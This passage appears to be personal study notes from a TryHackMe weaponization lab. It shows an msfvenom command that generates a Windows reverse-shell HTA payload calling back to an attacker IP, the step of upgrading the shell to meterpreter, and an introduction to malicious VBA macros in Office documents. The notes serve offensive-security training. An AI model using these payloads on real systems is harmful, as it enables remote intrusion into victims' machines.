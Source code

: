 ```shell-session
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
```

We use the msfvenom from the Metasploit framework to generate a malicious payload to connect back to the attacking machine. We used the following payload to connect the windows/x64/shell_reverse_tcp to our IP and listening port.

Once the victim visits the malicious URL and hits run, we get the connection back.

![[Pasted image 20241106224427.png]]

![[Pasted image 20241106224457.png]]

Now upgrade from shell to meterpreter
```
multi/manage/shell_to_meterpreter
```

![[Pasted image 20241106224837.png]]

# Visual Basic for Application (VBA)


VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.   

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface ([API](https://en.wikipedia.org/wiki/Windows_API)) and other low-level functionality. For more information about VBA, visit [here](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications). 

In this task, we will discuss the basics of VBA and the ways the adversary uses macros to create malicious Microsoft documents. To follow up along with the content of this task, make sure to deploy the attached Windows machine in Task 2. When it is ready, it will be available through in-browser access.

Now create a new blank Microsoft document to create our first macro. The goal is to discuss the basics of the language and show how to run it when a Microsoft Word document gets opened. First, we need to open the Visual Basic Editor by selecting view → macros. The Macros window shows to create our own macro within the document.
![[Pasted image 20241106231859.png]]
In the Macro name section, we choose to name our macro as THM. Note that we need to select from the Macros in list Document1 and finally select create. Next, the Microsoft Visual Basic for Application editor shows where we can write VBA code. Let's try to show a message box with the following message: Welcome to Weaponization Room!. We can do that using the MsgBox function as follows:
